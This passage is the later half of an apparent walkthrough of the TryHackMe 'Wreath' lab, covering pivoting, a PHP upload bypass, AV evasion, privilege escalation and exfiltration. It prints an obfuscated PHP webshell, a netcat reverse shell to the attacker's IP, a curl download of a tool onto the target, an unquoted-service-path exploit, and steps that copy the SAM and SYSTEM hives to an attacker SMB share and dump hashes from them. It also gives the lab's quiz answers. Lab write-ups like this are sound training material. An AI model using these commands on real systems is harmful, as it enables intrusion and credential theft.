```

![Wreath chisel server .150 machine](/assets/img/Wreath89.png)

Next, on your attacker host, let's run:

`chisel client <.150 IP>:<empire port> 9090:socks`

![Wreath chisel client attacker machine](/assets/img/Wreath90.png)

Next, let's setup FoxyProxy in Firefox:

![Wreath FoxyProxy attacker machine](/assets/img/Wreath91.png)

With this done, let's navigate to **http://10.200.84.100** in Firefox (note, this is going to be slow because of the proxying involved).

![Wreath 10.200.84.100 website](/assets/img/Wreath92.png)

This answers the first question, as we have established a proper pivot and can access the .100 website. Once loaded, use Wappalyzer to view the technology stack involved. This will be used to answer the second question, which is:

`PHP 7.4.11`

![Wreath 10.200.84.100 website Wappalyzer](/assets/img/Wreath93.png)

### Task 35 [Personal PC] The Wonders of Git

Based on what we can tell, the .100 machine also has a copy of the website present on the .200 machine. However, we can't tell if there's any differences between the two. However, since we know the .150 machine was used as a Git server, we should be able to use our access to the .150 machine to locate the Git repositories. This task has a total of five questions as shown below:

![Wreath Task 35 Questions pt 1](/assets/img/Wreath94.png)
![Wreath Task 35 Questions pt 2](/assets/img/Wreath95.png)
![Wreath Task 35 Questions pt 3](/assets/img/Wreath96.png)

First, go back to the evil-winrm Administrator session on the .150 machine. Let's see if we can locate the Website.git directory. After looking around, the repository was located under:

`C:\GitStack\repositories\Website.git`

This is the answer to the first question. Next, let's download the entire Website, by running:

`download c:\GitStack\repositories\Website.git`

This will take a few minutes to complete, but this will finish the second question.

![Wreath evil-winrm download git website repository](/assets/img/Wreath97.png)

The third question wants you to rename the subdirectory in the website.git folder to .git.

This can be done by running:

`mv c:\\GitStack\\repositories\\Website.git .git`

Once done, this question is also complete. The fourth question wants you to clone a tool from a Github repository that can be used to extract a git directory. This tool can be clone with:

`git clone https://github.com/internetwache/GitTools`

Next, run the following command to attempt to extract and recreate the repository into a readable format:

`./GitTools/Extractor/extractor.sh . Website`

This runs the extractor script against the repository in the current directory (the .) and says to extract it into a folder named Website.

![Wreath extract git website repository](/assets/img/Wreath98.png)

This completes the fourth question for this task. The final question for this task wants you to find out the various commits and the name of the latest one. The easiest way to do this is with the following one liner inside the Website folder:

`separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"`

![Wreath extract git website repository](/assets/img/Wreath99.png)

This shows the commit history and any notes about the commit. The most recent one is the one at the top, which is **0-345ac8b236064b431fa43f53d91c98c4834ef8f3**. Complete this question to finish this task.

### Task 36 [Personal PC] Website Code Analysis

This task consists of four questions as shown below:

![Wreath Task 36 Questions pt 1](/assets/img/Wreath100.png)
![Wreath Task 36 Questions pt 2](/assets/img/Wreath101.png)

Let's start working on the first qusetion. First, navigate into the 0-345ac8b236064b431fa43f53d91c98c4834ef8f3 directory. Since we know this site is made with PHP, let's search for all PHP files so we can try to find something potentially exploitable. This can be done with:

`find . -name "*.php"`

![Wreath find all php files](/assets/img/Wreath102.png)

Let's take a look at this file by opening it in a text editor. Scrolling through the documentation you will locate a ToDo list, which will answer the first two questions:

![Wreath website php todo list](/assets/img/Wreath103.png)

The answer to the first question is:

`neighbourhood watch meetings`

and the second question is:

`basic auth`

Review of the code makes it appear that there's two checks in place. In lines 10-14, there's a check to retrieve the image size. If it fails, then the file cannot be uploaded. There's also a list of file extensions on line 5, which is the answer to the third question:

`jpg,jpeg,png,gif`

Line 4 also shows that the file is being uploaded to the uploads folder with its original name. Now we know that the upload is vulnerable to attack, and where files are uploaded. We can complete the final question for this task with this information at hand!

### Task 37 [Personal PC] Exploit PoC

This task has a total of three questions, as shown below:

![Wreath Task 37 Questions pt 1](/assets/img/Wreath104.png)
![Wreath Task 37 Questions pt 2](/assets/img/Wreath105.png)

Let's follow along with the provided instructions. First, it asks you to navigate to **http://<100 machine ip>/resources**. Once here, you will be prompted with basic auth to access this page. Let's try using the credentials we uncovered earlier in Task 21:

![Wreath 100 machine /resources](/assets/img/Wreath106.png)

This completes the first question for this task. The second question wants you to upload a legitimate image file to see if that works. This can be any file with any of the extensions uncovered in Task 36. You will be notified that the upload was successful, as shown below:

![Wreath 100 machine /resources upload image](/assets/img/Wreath107.png)

Now, let's rename this file to test-\<username>.jpeg.php and use exiftool to insert a PHP comment with:

`exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-<username>.jpeg.php`

![Wreath 100 machine /resources upload image](/assets/img/Wreath108.png)

Next, upload this image as you did for the previous question, and then access it at:

`http://<100 machine ip>/resources/uploads/test-<username>.jpeg.php`

![Wreath 100 machine /resources upload image test php payload](/assets/img/Wreath109.png)

As you can see, this payload was executed without any issues!, which means we have PHP execution! This completes the final question for this Task

### Task 38 [AV Evasion] Introduction

This task provides some basic information on what AV Evasion is and has three questions in total:

![Wreath Task 38 Questions](/assets/img/Wreath110.png)

The first question is answered about halfway through the introduction, which is:

`On-Disk evasion`

The second question asks what AMSI stands for, which is a couple paragraphs below the answer to the first, which is:

`Anti-Malware Scan Interface`

The third question asks what category of evasion AMSI affects, which is:

`In-Memory evasion`

### Task 39 [AV Evasion] AV Detection Methods

This is another task that is more theory than hands on, and consists of four questions:

![Wreath Task 39 Questions](/assets/img/Wreath111.png)

The first question asks for another name for Dynamic/Heuristic detection methods. This can be found at the beginning of this task, and is:

`Behavioural`

The second question asks about what type of analysis is performed when splitting a program into chunks and hashing them and comparing them to a hash database. This is:

`static`

The third question asks how AV would check to see if behavior is malicious when doing dynamic analysis. This is:

`pre-defined rules`

The last question asks what can be added to a file to ensure only a user can open it. This is a:

`password`

### Task 40 [AV Evasion] PHP Payload Obfuscation

Now that we have this knowledge, let's use it to our advantage. There's a total of five questions for this task:

![Wreath Task 40 Questions pt 1](/assets/img/Wreath112.png)
![Wreath Task 40 Questions pt 2](/assets/img/Wreath113.png)

The first three questions will be answered as you follow along with the task, where you will create an obfuscated PHP payload, upload it to the .100 web server, and then use it to run commands.

First, copy the payload that you are provided:

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Next, insert it into [this website](https://www.gaijin.at/en/tools/php-obfuscator) to obfuscate the code. Check all the options, and then click on **Obfuscate Source Code**. You should end up with something similar to:

`<?php $t0=$_GET[base64_decode('d3JlYXRo')];if(isset($t0)){echo base64_decode('PHByZT4=').shell_exec($t0).base64_decode('PC9wcmU+');}die();?>`

We will then need to modify this to escape the $ characters for inserting it as a comment into an image file. The updated code should look like:

`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

This completes the first question. Next, find another jpeg image, and save it as:

`shell-<username>.jpeg.php`

Next, add our PHP shell we just obfuscated as a comment with:

`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-<username>.jpeg.php`

![Wreath create obfuscated PHP payload image file](/assets/img/Wreath114.png)

This completes the second question. Next, upload your shell image file and access it at:

`http://<100 ip>/resources/uploads/shell-<username>.jpeg.php?wreath=<command to run>`

![Wreath create obfuscated PHP payload ran](/assets/img/Wreath115.png)

Since we know this works, this completes the third question. The fourth question is answered by either the systeminfo or hostname parameter:

![Wreath create obfuscated PHP payload hostname](/assets/img/Wreath116.png)

The last question is answered by running the whoami parameter:

![Wreath create obfuscated PHP payload whoami](/assets/img/Wreath117.png)

### Task 41 [AV Evasion] Compiling Netcat & Reverse Shell!

This task consists of six questions, which are as follows:

![Wreath Task 41 Questions pt 1](/assets/img/Wreath118.png)
![Wreath Task 41 Questions pt 2](/assets/img/Wreath119.png)

For the first question, follow the steps at the beginning and make your own compiled version of netcat, which will hopefully evade the AV installed on the .100 system. Once you follow the provided steps and have renamed it to **nc-\<username>.exe**, you can complete the first question. 

Next, start a python http server on your attacker machine in the directory where the netcat executable you created is stored. This is done with:

`python3 -m http.server`

This completes the second question for this task. The third question wants you to ruun certutil.exe with your webshell that you used to run systeminfo and whoami in the previous step. What output appears when you run this?

![Wreath php webshell certutil.exe](/assets/img/Wreath120.png)

This is the answer to the third question. Let's run the following curl command to upload netcat to the .100 machine from our webshell:

`curl http://<attacker ip>:8000/nc-<username>.exe -o c:\\windows\\temp\\nc-<username.exe>`

![Wreath php webshell upload netcat](/assets/img/Wreath121.png)

This completes the fourth question. Let's setup a netcat listener on our attacker machine with:

`nc -nvlp 4567`

Next, in the webshell, run:

`powershell.exe c:\\windows\\temp\\nc-<username>.exe <attacker ip> 4567 -e cmd.exe`

We should now have caught a reverse shell on our attacker machine:

![Wreath .100 machine reverse shell](/assets/img/Wreath122.png)

This completes the fifth If you would like, you can create a Metasploit payload, but I've done this in the past so I opted to skip this final question.

### Task 42 [AV Evasion] Enumeration

This task has a total of six questions, which are as follows:

![Wreath Task 42 Questions pt 1](/assets/img/Wreath123.png)
![Wreath Task 42 Questions pt 2](/assets/img/Wreath124.png)

The first question is fairly simple to get the answer to. Run the provided command (whoami /priv) and you will see the following permissions:

![Wreath 100 machine whoami /priv](/assets/img/Wreath125.png)

The rather infamous privilege to answer the first question is:

`SeImpersonatePrivilege`

The second question wants you to run **whoami /groups** to see if this user is an Administrator, which answers the second question. Unfortunately they are not.

For the third question, run:

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

This will return non default Windows services:

![Wreath 100 machine wmic list services](/assets/img/Wreath126.png)

There is one in particular that stands out, as the path is not in quotes. This is what is referred to as an unquoted service path, which is vulnerable to exploitation. The name of this service is located in the second column, which answers the third question:

`SystemExplorerHelpService`

The fourth question wants you to find out what this service runs as. Let's run:

`sc query SystemExplorerHelpService`

This returns the following, which allows you to answer the fourth question:

![Wreath 100 machine sc qc](/assets/img/Wreath127.png)

We have found a service that runs as local system that is vulnerable to attack, however, we need to ensure that the permissions on the directory in the path allow our user proper access to create a file here. Let's run:

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

![Wreath 100 machine Powershell get-acl](/assets/img/Wreath128.png)

This lets us know we have full control over this directory, which means we can exploit this! This completes the fifth question.

The sixth question is optional, but definitely worth doing. You would upload winpeas with curl as you did with netcat, and then run it from your reverse shell. You should get output similar to the following:

![Wreath 100 machine winpeas](/assets/img/Wreath129.png)
![Wreath 100 machine winpeas vulnerabilities](/assets/img/Wreath130.png)

### Task 43 [AV Evasion] Privilege Escalation

This task consists of seven questions, which are as follows:

![Wreath Task 43 Questions pt 1](/assets/img/Wreath131.png)
![Wreath Task 43 Questions pt 2](/assets/img/Wreath132.png)
![Wreath Task 43 Questions pt 3](/assets/img/Wreath133.png)
![Wreath Task 43 Questions pt 4](/assets/img/Wreath134.png)

For the first question, follow along with the provided instructions to create a wrapper.

![Wreath wrapper code](/assets/img/Wreath135.png)
![Wreath compile wrapper](/assets/img/Wreath136.png)

After these steps are done, you can complete the first question. Next, let's start an impacket SMB server on our attacker machine in the directory that the Wrapper.exe file is in with:

`sudo /opt/impacket/examples/smbserver.py share . -smb2support -username user -password Password`

![Wreath impacket SMB share](/assets/img/Wreath137.png)

Next, from the reverse shell on the .100 machine, run the following to connect to this SMB share:

`net use \\<attacker ip>\share /USER:user Password`

![Wreath net use SMB share](/assets/img/Wreath138.png)

Next, let's copy the wrapper over to a folder our current user has access to, with:

`copy \\<attacker ip>\share\Wrapper.exe %TEMP%\wrapper-<username>.exe`

Next, remove your SMB share from the .100 machine with:

`net use \\<attacker ip>\share /del`

This completes the second question. Next, create a netcat listener with the port you used in the Wrapper.exe file you created on your attacker machine. Once that is done, run the Wrapper file by running:

`"%TEMP\wrapper-<username>.exe"`

![Wreath wrapper reverse shell](/assets/img/Wreath139.png)

This completes the third question for this task. Let's exit the shell and reset up our listener on that same port on our attacker machine. Next, we discovered the unquoted service path earlier. Let's use this to our advantage and copy the wrapper over to one of the directories so it is executed as local system:

`copy %TEMP%\wrapper-<username>.exe "C:\Program Files (x86)\System Explorer\System.exe"`

This completes the fourth question.

Next let's restart the service on the attacker machine with:

```
sc stop SystemExplorerHelpService
sc start SystemExplorerHelpService
```

![Wreath 100 machine start/stop service](/assets/img/Wreath140.png)
![Wreath 100 machine localsystem reverse shell](/assets/img/Wreath141.png)

This completes the fifth question. Next, follow the steps to clean up after yourself and delete the wrapper you created. This completes the sixth question. The final question is optional, and was skipped (and marked complete).

### Task 44 [Exfiltration] Exfiltration Techniques & Post Exploitation 

This task consists of five questions, which are as follows:

![Wreath Task 44 Questions pt 1](/assets/img/Wreath142.png)
![Wreath Task 44 Questions pt 2](/assets/img/Wreath143.png)

Read the provided documentation to answer the first two questions. The answers are as follows:

`Nay`

`encryption`

For the third question, follow along and let's save the SAM and SYSTEM registry hives by running the following:

```
reg.exe save HKLM\SAM sam.bak
reg.exe save HKLM\SYSTEM system.bak
```

![Wreath save registry](/assets/img/Wreath144.png)

Once saved, reconnect to our attacker SMB share as shown in the previous step, and move these two files to that share.


```
move sam.bak \\<attacker ip>\share\sam.bak
move system.bak \\<attacker ip>\share\system.bak
```

Next, disconnect the SMB server as you did before and complete this question. To answer the fourth question, let's run:

`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL`

This will dump all the hashes for the users, including the administrator hash which is the answer to this question.

![Wreath Impacket secretsdump.py](/assets/img/Wreath145.png)

At this point, we have proof we've owned this network. Perform cleanup on all the systems by deleting the various tools/exploits on the three hosts. Once done, mark this as complete.

### Task 45 [Conclusion] Debrief & Report

This task has two questions, which are to create a report and host it somewhere. This has been done by documenting this process and saving it to my website.

### Task 46 [Conclusion] Final Thoughts

This is just a shout out to everyone who worked on this room. Complete this final question to finish this Network!

</details>